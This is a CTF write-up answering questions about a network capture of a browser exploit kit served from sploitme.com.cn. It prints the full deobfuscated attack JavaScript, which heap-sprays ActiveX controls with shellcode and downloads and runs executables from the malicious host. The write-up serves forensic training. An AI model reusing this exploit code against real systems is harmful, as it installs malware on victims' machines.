# [CyberDefenders - NukeTheBrowser](https://cyberdefenders.org/blueteam-ctf-challenges/nukethebrowser/)
Created: 17/06/2024 17:31
Last Updated: 04/07/2024 10:27
* * *
>Category: Network Forensics
>Tags: PCAP, P0f, Wireshark, NetworkMiner, BRIM, SpiderMonkey, VirusTotal, JavaScript, CVEs, T1071.001, T1140, T1059.003, T1204, T1189
* * *
A network trace with attack data is provided. Please note that the IP address of the victim has been changed to hide the true location.

As a soc analyst, analyze the artifacts and answer the questions.

**Tools**:
- [BrimSecurity](https://www.brimsecurity.com/)
- [WireShark](https://www.wireshark.org/)
- [SpiderMonkey](https://blog.didierstevens.com/programs/spidermonkey/)
- [VirusTotal](https://www.virustotal.com/gui/home/upload)
- [libemu](https://github.com/buffer/libemu)
- [Network Miner](https://www.netresec.com/?page=NetworkMiner)
* * *
## Questions
> Q1: Multiple systems were targeted. Provide the IP address of the highest one.



Open pcap file on Wireshark and go to Statistics and sort for the highest IP address

```
10.0.5.15
```

> Q2: What protocol do you think the attack was carried over?

When opened this pcap files, we saw a lot of HTTP communications and there are some executable files were served so the best guess would be HTTP protocol which is the correct answer

```
http
```

> Q3: What was the URL for the page used to serve malicious executables (don't include URL parameters)?



After filtered for HTTP protocol, then follow some HTTP stream we can see that there are some obfuscated JS embedded on this particular sites



Following through it, we can see that an executable file was served on `/fg/load.php` and we can speculate that parameter `e` might indicate which file to be served and it this case it served `video.exe`



The other way to find this is to use NetworkMiner, but we will miss those details information of each request / response

```
http://sploitme.com.cn/fg/load.php
```

> Q4: What is the number of the packet that includes a redirect to the french version of Google and probably is an indicator for Geo-based targeting?



We can use NetworkMiner to reduce our time by scoping which request were sent to Google, we can see that packet 302 and 322 had sessions with french version of Google here



Go back to Wireshark, and use Find Packet function to jump to the first packet with `google.fr` domain then we can see packet 300 is the DNS query to `google.fr` so we will have to follow packet before this DNS query to find how it was redirected to `google.fr` 



It was packet 299, GET request was sent to `google.com` then it was redirected to `google.fr` hence the DNS query and sessions to `google.fr` were made after this packet

```
299
```

> Q5: What was the CMS used to generate the page 'shop.honeynet.sg/catalog/'? (Three words, space in between)



Find for `/catalog` then we can see which packet we should look into



Follow HTTP request and try to find any CMS-like name that blended inside HTML code 

```
osCommerce Online Merchant
```

> Q6: What is the number of the packet that indicates that 'show.php' will not try to infect the same host twice?



I used brim to easily filter out all `show.php` uri, then we can see that there are several requested to `/fg/show.php?s=3feb5a6b2f` uri so we will investigate this uri and see that what difference between first request and other requests 



This is the response of the first request to `/fg/show.php?s=3feb5a6b2f`, suspicious obfuscated js 



Most of them have JS code except for this one



Which is packet 366

```
366
```

> Q7: One of the exploits being served targets a vulnerability in "msdds.dll". Provide the corresponding CVE number.



After searching for `msdds.dll` vulnerability then we will see there is one particular CVE related to this dll file which is Microsoft Internet Explorer "Msdds.dll" Remote Code Execution Exploit

- https://www.exploit-db.com/exploits/26167
- https://www.kb.cert.org/vuls/id/740372

```
CVE-2005-2127
```

> Q8: What is the name of the executable being served via 'http://sploitme.com.cn/fg/load.php?e=8' ?



I did not find any `/load.php?e=8` were requested so we will have to dig into each obfuscated js which we can print out the deobfuscated js by replacing `eval` with `console.log`



We do not see anything specific to `/load.php?e=8` here and from the clue from got from previous question we will have to find the right packet that contains shellcode



After some search we will eventually found that packet 496 got the longest js and after print out deobfuscated js, we can see that it got so many shellcode here

Here is the full deobfuscated javascript from packet 496 after passed to beautifiy js
```
function Complete() {
	setTimeout('location.href = "about:blank', 2000);
}
function CheckIP() {
	var req = null;
	try {
		req = new ActiveXObject('Msxml2.XMLHTTP');
	} catch (e) {
		try {
			req = new ActiveXObject('Microsoft.XMLHTTP');
		} catch (e) {
			try {
				req = new XMLHttpRequest();
			} catch (e) {
			}
		}
	}
	if (req == null)
		return '0';
	req.open('GET', '/fg/show.php?get_ajax=1&r=' + Math.random(), false);
	req.send(null);
	if (req.responseText == '1') {
		return true;
	} else {
		return false;
	}
}
var urltofile = 'http://sploitme.com.cn/fg/load.php?e=1';
var filename = 'update.exe';
function CreateO(o, n) {
	var r = null;
	try {
		r = o.CreateObject(n);
	} catch (e) {
	}
	if (!r) {
		try {
			r = o.CreateObject(n, '');
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.CreateObject(n, '', '');
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.GetObject('', n);
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.GetObject(n, '');
		} catch (e) {
		}
	}
	if (!r) {
		try {
			r = o.GetObject(n);
		} catch (e) {
		}
	}
	return r;
}
function Go(a) {
	var s = CreateO(a, 'WScript.Shell');
	var o = CreateO(a, 'ADODB.Stream');
	var e = s.Environment('Process');
	var xhr = null;
	var bin = e.Item('TEMP') + '\\' + filename;
	try {
		xhr = new XMLHttpRequest();
	} catch (e) {
		try {
			xhr = new ActiveXObject('Microsoft.XMLHTTP');
		} catch (e) {
			xhr = new ActiveXObject('MSXML2.ServerXMLHTTP');
		}
	}
	if (!xhr)
		return 0;
	xhr.open('GET', urltofile, false);
	xhr.send(null);
	var filecontent = xhr.responseBody;
	o.Type = 1;
	o.Mode = 3;
	o.Open();
	o.Write(filecontent);
	o.SaveToFile(bin, 2);
	s.Run(bin, 0);
}
function mdac() {
	var i = 0;
	var objects = new Array('{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{AB9BCEDD-EC7E-47E1-9322-D4A210617116}', '{0006F033-0000-0000-C000-000000000046}', '{0006F03A-0000-0000-C000-000000000046}', '{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}', '{6414512B-B978-451D-A0D8-FCFDF33E833C}', '{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}', '{06723E09-F4C2-43c8-8358-09FCD1DB0766}', '{639F725F-1B2D-4831-A9FD-874847682010}', '{BA018599-1DB3-44f9-83B4-461454C84BF8}', '{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}', '{E8CCCDDF-CA28-496b-B050-6C07C962476B}', null);
	while (objects[i]) {
		var a = null;
		if (objects[i].substring(0, 1) == '{') {
			a = document.createElement('object');
			a.setAttribute('classid', 'clsid:' + objects[i].substring(1, objects[i].length - 1));
		} else {
			try {
				a = new ActiveXObject(objects[i]);
			} catch (e) {
			}
		}
		if (a) {
			try {
				var b = CreateO(a, 'WScript.Shell');
				if (b) {
					if (Go(a)) {
						if (CheckIP()) {
							Complete();
						} else {
							aolwinamp();
						}
						return true;
					}
				}
			} catch (e) {
			}
		}
		i++;
	}
	aolwinamp();
}
function aolwinamp() {
	try {
		var obj = document.createElement('object');
		document.body.appendChild(obj);
		obj.id = 'IWinAmpActiveX';
		obj.width = '1';
		obj.height = '1';
		obj.data = './directshow.php';
		obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
		var shellcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u333D');
		var bigblock = unescape('%u0c0c%u0c0c');
		var headersize = 20;
		var slackspace = headersize + shellcode.length;
		while (bigblock.length < slackspace)
			bigblock += bigblock;
		var fillblock = bigblock.substring(0, slackspace);
		var block = bigblock.substring(0, bigblock.length - slackspace);
		while (block.length + slackspace < 262144)
			block = block + block + fillblock;
		var memory = new Array();
		for (var i = 0; i < 666; i++) {
			memory[i] = block + shellcode;
		}
		document.write('<SCRIPT language="VBScript">');
		document.write('bof=string(1400,unescape("%ff")) + string(1000,unescape("%0c"))');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
		document.write('</SCRIPT>');
	} catch (e) {
	}
	directshow();
}
function directshow() {
	var shellcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u343D');
	var bigblock = unescape('%u9090%u9090');
	var headersize = 20;
	var slackspace = headersize + shellcode.length;
	while (bigblock.length < slackspace)
		bigblock += bigblock;
	var fillblock = bigblock.substring(0, slackspace);
	var block = bigblock.substring(0, bigblock.length - slackspace);
	while (block.length + slackspace < 262144) {
		block = block + block + fillblock;
	}
	var memory = new Array();
	for (var i = 0; i < 350; i++) {
		memory[i] = block + shellcode;
	}
	try {
		var obj = document.createElement('object');
		document.body.appendChild(obj);
		obj.width = '1';
		obj.height = '1';
		obj.data = './directshow.php';
		obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
		setTimeout('if (CheckIP()){ Complete(); } else { snapshot(); }', 1000);
	} catch (e) {
		snapshot();
	}
}
function snapshot() {
	var x;
	var obj;
	var mycars = new Array();
	mycars[0] = 'c:/Program Files/Outlook Express/wab.exe';
	mycars[1] = 'd:/Program Files/Outlook Express/wab.exe';
	mycars[2] = 'e:/Program Files/Outlook Express/wab.exe';
	try {
		var obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
	} catch (e) {
		try {
			var obj = document.createElement('object');
			obj.setAttribute('classid', 'clsid:F0E42D50-368C-11D0-AD81-00A0C90DC8D9');
			obj.setAttribute('id', 'obj');
			obj.setAttribute('width', '1');
			obj.setAttribute('height', '1');
			document.body.appendChild(obj);
		} catch (e) {
		}
	}
	try {
		if (obj = '[object]') {
			for (x in mycars) {
				obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
				var buf = mycars[x];
				obj.Zoom = 0;
				obj.ShowNavigationButtons = false;
				obj.AllowContextMenu = false;
				obj.SnapshotPath = 'http://sploitme.com.cn/fg/load.php?e=6';
				try {
					obj.CompressedPath = buf;
					obj.PrintSnapshot();
					var snpelement = document.createElement('iframe');
					snpelement.setAttribute('id', 'snapiframe');
					snpelement.setAttribute('src', 'about:blank');
					snpelement.setAttribute('width', 1);
					snpelement.setAttribute('height', 1);
					snpelement.setAttribute('style', 'display:none;');
					document.body.appendChild(snpelement);
					setTimeout("document.getElementById('snapiframe').src = 'ldap://';", 3000);
				} catch (e) {
				}
			}
		}
	} catch (e) {
	}
	com();
}
function com() {
	try {
		var obj = document.createElement('object');
		document.body.appendChild(obj);
		obj.setAttribute('classid', 'clsid:EC444CB6-3E7E-4865-B1C3-0DE72EF39B3F');
		if (obj) {
			var shcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u373D');
			var hbs = 1048576;
			var sss = hbs - (shcode.length * 2 + 56);
			var hb = (202116108 - hbs) / hbs;
			var myvar = unescape('%u0C0C%u0C0C');
			var ss = myvar;
			while (ss.length * 2 < sss) {
				ss += ss;
			}
			ss = ss.substring(0, sss / 2);
			var m = new Array();
			for (var i = 0; i < hb; i++) {
				m[i] = ss + shcode;
			}
			var z = Math.ceil(202116108);
			z = document.scripts[0].createControlRange().length;
		}
	} catch (e) {
	}
	spreadsheet();
}
function spreadsheet() {
	try {
		var objspread = new ActiveXObject('OWC10.Spreadsheet');
	} catch (e) {
	}
	if (objspread) {
		try {
			var shellcode = unescape('%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u383D');
			var array = new Array();
			var ls = 528384 - shellcode.length * 2;
			var bigblock = unescape('%u0b0c%u0b0C');
			while (bigblock.length < ls / 2) {
				bigblock += bigblock;
			}
			var lh = bigblock.substring(0, ls / 2);
			delete bigblock;
			for (var i = 0; i < 153 * 2; i++) {
				array[i] = lh + lh + shellcode;
			}
			CollectGarbage();
			var objspread = new ActiveXObject('OWC10.Spreadsheet');
			e = new Array();
			e.push(1);
			e.push(2);
			e.push(0);
			e.push(window);
			for (i = 0; i < e.length; i++) {
				for (j = 0; j < 10; j++) {
					try {
						objspread.Evaluate(e[i]);
					} catch (e) {
					}
				}
			}
			window.status = e[3] + '';
			for (j = 0; j < 10; j++) {
				try {
					objspread.msDataSourceObject(e[3]);
				} catch (e) {
				}
			}
		} catch (e) {
		}
	}
	Complete();
}
mdac();
```



We have to pick each one of them and convert them from Hex, which we will eventually find out that `shellcode` from `spreadsheet()` related to uri we are looking for



We will need to "Swap endianness" by 2 word length bytes before convert it "From Hex" then we can save this binary output to a file to simulate shellcode with scdbg (shellcode debugger)



Do not forget to use "Unlimited steps" and "FindSc", after we simulated it then we can see that `urlmon.dll` was loaded to use `URLDownloadToFileA` function and it was used to download `e.exe` from `http//sploitme.com.cn/fg/load.php?e=8` to user's temp folder then execute it with `WinExec` 

```
e.exe
```

> Q9: One of the malicious files was first submitted for analysis on VirusTotal at 2010-02-17 11:02:35 and has an MD5 hash ending with '78873f791'. Provide the full MD5 hash.



Remember `video.exe` that was served on Q3?, its filehash end with '78873f791'



And after we searched it on VirusTotal, we can also see that First Submission Date is also matched so there is no doubt that we got the right file

```
52312bb96ce72f230f0350e78873f791
```

> Q10: What is the name of the function that hosted the shellcode relevant to 'http://sploitme.com.cn/fg/load.php?e=3'?



After converting each shellcode then we will eventually found that url found in `shellcode` inside `aolwinamp` function matched the url we are looking for



```
aolwinamp
```

> Q11: Deobfuscate the JS at 'shop.honeynet.sg/catalog/' and provide the value of the 'click' parameter in the resulted URL.



Lets find relavant packet related to `shop.honeynet.sg/catalog/` then we can follow HTTP stream to find it script



๋JS script would not be so obvious here so we can search for it and paste it somewhere else



After replacing `document.write` with `console.log`, we can see that it is an invisible iframe to load specific url and `click` parameter was assigned value on this url might trigger different payload / interaction that will be taken for each parameter

```
84c090bd86
```

> Q12: Deobfuscate the JS at 'rapidshare.com.eyu32.ru/login.php' and provide the value of the 'click' parameter in the resulted URL.



We will repeat the same steps from the previous question to find an answer



This time look like we need one more step to convert this hex to ascii



But in the end, its an another invisible iframe here

```
3feb5a6b2f
```

> Q13: What was the version of 'mingw-gcc' that compiled the malware?



There are 2 ways to solve this, first is to find where `video.exe` were sent and looking for `gcc` which eventually telling us it was compiled by mingw-gcc version 3.4.5 here



Or you can use `strings` on this malware directly to find it, its still the same answer 

```
3.4.5
```

> Q14: The shellcode used a native function inside 'urlmon.dll' to download files from the internet to the compromised host. What is the name of the function?


```
URLDownloadToFile
```


* * *
